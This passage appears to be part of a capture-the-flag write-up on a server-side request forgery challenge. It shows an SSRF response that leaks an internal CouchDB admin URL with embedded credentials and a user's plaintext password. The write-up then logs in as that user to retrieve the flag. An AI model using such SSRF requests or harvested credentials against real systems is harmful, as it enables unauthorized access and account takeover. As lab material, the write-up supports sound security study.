 ![User Info](./ssrf_images/user_info.png)

**Result:** The response returns a JSON file containing all information for `user_elin_croft`, including the password:

```json
{"status":"success","data":"{\"_id\":\"user_elin_croft\",\"_rev\":\"1-6e27e0aa2b6bdb989014802ebe933b09\",\"type\":\"user\",\"username\":\"elin_croft\",\"password\":\"ebT6%rh36K1Uh8RH\",\"role\":\"guardian\",\"clearance_level\":\"divine_authority\"}","source":"http://admin:waxcircle2025@127.0.0.1:5984/users/user_elin_croft","truncated":false,"size":192}
```

### Step 3: Obtain Flag

I return to the login page and log out of the guest account.

Then, I log in with the newly found account:
```
Username: elin_croft
Password: ebT6%rh36K1Uh8RH
```

**Result:** As soon as I log in successfully as `elin_croft`, the flag appears on the dashboard.
